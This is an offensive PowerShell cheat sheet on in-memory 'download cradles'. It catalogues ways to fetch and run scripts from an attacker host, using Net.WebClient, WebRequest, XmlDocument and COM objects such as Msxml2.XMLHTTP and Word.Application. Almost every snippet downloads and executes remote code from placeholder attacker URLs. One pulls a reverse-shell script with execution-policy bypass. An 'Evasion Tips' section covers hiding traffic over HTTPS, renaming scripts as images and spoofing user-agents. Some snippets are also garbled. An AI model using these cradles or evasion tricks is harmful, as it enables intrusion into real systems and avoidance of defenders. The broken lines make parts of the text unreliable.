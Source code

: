 Download and run within the PowerShell process memory
IEX is only useful for downloading and executing PS1 scripts and BATCH (.BAT) files into memory. This will NOT download and execute an EXE file into memory.
# deploy http server
```python
python -m SimpleHTTPServer 80 # python 2.x
python -m http.server 80 # python 3.x
```

# Net.WebClient DownloadString Method
```powershell
cmd> powershell.exe -nop -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1')"
```
```powershell
PS> iex (New-Object Net.Webclient).DownloadString ("http://attacker_url/script.ps1")
```
```powershell
PS> $downloader = New-Object System.Net.WebClient
PS> $payload = "http://attacker_url/script.ps1"
PS> $command = $downloader.DownloadString($payload)
PS> Invoke-Expression $command
```
Evasion Tips:
- When hosting your remote PowerShell script, to have an SSL certificate configured on the attacker machine. This helps in evading over-the-wire heuristics as our traffic will go over HTTPS
- Help in evading basic file extension heuristics is to give our PowerShell script a different extension, for instance, “Logo.gif”. PowerShell will still execute it as a.ps1 script.
- Net.WebClient class allows us to specify a custom user-agent string when sending the request to our attacker URL.
```powershell
PS> $downloader = New-Object System.Net.WebClient
PS> $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
PS> $payload = "http://192.168.13.62/Get-ProcessPaths.psi"
PS> $command = $downloader.DownloadString($payload)
PS> iex $command
```
# Net.WebClient DownloadData Method
# Net.WebClient OpenRead Method
# Net.WebRequest class
```powershell
PS> $req = [System.Net.WebRequest]::Create("http://attacker_URL/script.ps1") # Instantiate our System.Net.WebRequest class as the $req variable
PS> $res = $req.GetResponse() # Create a $res variable to store the WebRequest response
PS> iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd() # Use the “Invoke-Expression” alias (iex) to invoke the System.IO.StreamReader and execute our code
```
```powershell
# configure to use proxy
PS> $req = [System.Net.WebRequest]::Create("http://attacker URL/script.ps1"
PS> $req.GetResponse()
PS> $proxy = [Net.WebRequest::GetSystemWebProxy()
PS> $proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
PS> $req.Proxy
PS> iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToFEnd (
```
# Certutilexe w/ -ping argument
# System.Xml.XmIDocument
Execute a powershell command (or any system command) contained within an attacker hosted XML document.
Likely not detected, especially when combined with a server over HTTPS.
```xml
# create an XML file
<?xml version="1.0"?>
<command>
	<a>
		<execute>Get-Process</execute>
	</a>
</command>
```
```powershell
# execute hosted XML file
PS> $xmldoc = New-Object System.Xml.XmlDocument 
PS> $xmldoc.Load("http://attacker_url/file.xml")
PS> iex $xmldoc.command.a.execute
```
# COM Objects
To both download and execute scripts on target systems.
All of the COM Objects are proxy- aware, and will by default, use system configured proxies, except for the “WinHttp.WinHttpRequest.5.1” object, although that object can be configured to use one if needed.
## Msxml2.XMLHTTP Com Object 
```powershell
PS> $downloader = New-Object -ComObject Msxml2.XMLHTTP 
PS> $downloader.open("GET", "http://attacker_URL/script.psl", $false)
PS> $downloader.send()
PS> iex $downloader.responseText
```
## Microsoft.XMLHTTP Com Object 
## InternetExplorer.Application COM Object
The `InternetExplorer.Application` COM Object represents an instance of the Internet Explorer browser. It can be automated to navigate to web pages, manipulate browser settings, and retrieve content.
```powershell
$ie = New-Object -ComObject InternetExplorer.Application # Create InternetExplorer.Application COM Object
$ie.Navigate("http://example.com") # Navigate to the URL
# Wait for the page to load (optional)
while ($ie.Busy) {
    Start-Sleep -Milliseconds 100
}
$content = $ie.Document.body.innerText # Extract content from the loaded page (optional)
$ie.Quit() # Close the Internet Explorer instance
Invoke-Expression $content # Execute the retrieved content in memory
```
## Word.Application COM Object
The `Word.Application` COM Object is used for automating Microsoft Word. It allows you to create, manipulate, and interact with Word documents programmatically.
The script content is then downloaded using `New-Object System.Net.WebClient).DownloadString($scriptUrl)` and added to the Word document. The rest of the code remains the same for saving the document to a MemoryStream and executing its content in memory.
```powershell
# URL of the remote PowerShell script
$scriptUrl = "http://<IP>:<port>/<skrypt.ps1>"
$scriptContent = (New-Object System.Net.WebClient).DownloadString($scriptUrl) # Download the PowerShell script content
$word = New-Object -ComObject Word.Application # Create Word.Application COM Object
$document = $word.Documents.Add() # Create a new document
# Add a paragraph with the downloaded PowerShell script content
$paragraph = $document.Paragraphs.Add()
$paragraph.Range.Text = $scriptContent
# Save the document in memory (optional)
$memoryStream = New-Object IO.MemoryStream
$document.SaveAs([ref]$memoryStream)
$word.Quit() # Close the Word application
$documentContent = [System.Text.Encoding]::UTF8.GetString($memoryStream.ToArray()) # Convert the saved document to string
Invoke-Expression $documentContent # execute in memory
```
## Excel.Application COM Object 
## MsXml2.ServerXmlHttp Com Object 
## WinHttp.WinHttpRequest.5.1 (Not Proxy Aware)
```powershell
PS> $downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
PS> $downloader.open("GET", "http://attacker_URL/script.psl", $false)
PS> $downloader.send()
PS> iex $downloader.responseText
```